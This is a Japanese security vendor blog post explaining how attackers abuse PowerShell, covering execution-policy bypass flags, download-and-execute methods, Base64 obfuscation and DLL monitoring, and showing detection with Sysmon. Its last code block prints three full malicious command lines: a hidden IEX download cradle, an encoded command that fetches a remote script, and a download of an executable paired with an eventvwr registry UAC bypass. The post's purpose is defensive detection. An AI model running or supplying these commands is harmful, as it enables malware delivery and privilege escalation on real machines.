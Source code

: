 ```yaml
---
date: 2020-05-12T00:03:00
draft: false
title: "PowerShellを利用した攻撃"
description: 
featured_image: "cdn/threats/powershell_attack_techniques-1.png"
tags: ["PowerShell", "マルウェア", "ウェブハッキング", "セキュリティ脆弱性", "PLURA"]
---
```


PowerShellは、システム管理や自動化を目的に設計されたコマンドラインシェルおよびスクリプト言語です。  
Windows Vista以降に標準搭載されており、管理ツールとして有用である一方、攻撃者にも頻繁に利用されています。

<!--more-->
![powershell_attack_techniques](https://blog.plura.io/cdn/threats/powershell_attack_techniques-1.png)

---

### 1. 実行ポリシー (Execution Policy)

MicrosoftはデフォルトでPowerShellスクリプトの実行を制限しています。  
しかし、攻撃者はこれを簡単に回避することが可能です。  

**回避フラグ例:**  
- `-ExecutionPolicy` または `-EP Bypass`  
- `-ExecutionPolicy` または `-EP Unrestricted`  
- `-noprofile` または `-nop`  

*Profile Bypass: 各セッションの開始時にPowerShellを構成するために設定されたProfileも無視可能です。*

---

### 2. ダウンロード

PowerShellクラスおよびメソッドを使用して、マルウェアをダウンロードおよび実行することができます。  

頻繁に使用されるコマンド:  
- **New-Object**: .NET Frameworkのインスタンスを生成します。  
- **System.Net.WebClient**: リモートリソースとのデータ送受信に使用されます。  
- **DownloadString**: リモートからメモリバッファに内容をダウンロードします。  
- **DownloadFile**: リモートからローカルファイルとしてコンテンツをダウンロードします。  
- **IEX (Invoke-Expression)**: コマンドを実行します。  
- **ICM (Invoke-Command)**: ローカルおよびリモートコンピューターでコマンドを実行します。

---

### 3. エンコーディング

- PowerShellコマンドを隠蔽するためにBase64エンコーディングが頻繁に使用されます。  
- エンコーディングされたコマンドは、コマンドラインの長さが異常に長くなる場合があります。  
- 500文字を超える長いコマンドは、疑わしい可能性があります。

---

### 4. DLLの呼び出し

- 疑わしいDLL呼び出しの組み合わせを検出することで、悪意ある動作を特定できます。  
- PowerShell.exeまたはPowerShell_ISE.exe以外の実行ファイルで以下のDLL呼び出しが発生しているか監視します。  
  - `System.Management.Automation.Dll`  
  - `System.Management.Automation.ni.Dll`  
  - `System.Reflection.Dll`  

*Sysmon ID 7 (ImageLoaded)を活用して確認可能です。*

---

### 5. PLURAによるPowerShell悪意ある動作の検出

**Sysmonインストールが必須**  
- [インストールガイドを見る](https://docs.plura.io/ko/agents/edr/windows/sysmon)

![PLURA検出](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

---

#### マルウェア実行の検出例

PowerShellの回避および攻撃者サーバーからのファイルダウンロード行為:  

![PowerShellマルウェア実行](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**PLURAフィルタ検出**  
PLURAはSysmonを活用し、以下のような悪意あるコマンドを検出します:

```bash
powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')

cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==

cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe
```

## 参考

- [SANS資料](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf)  
- [Broadcomレポート](https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en)  
- [AhnLab記事](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651)  
- [セキュリティニュースを見る](https://bit.ly/2V99SLF)
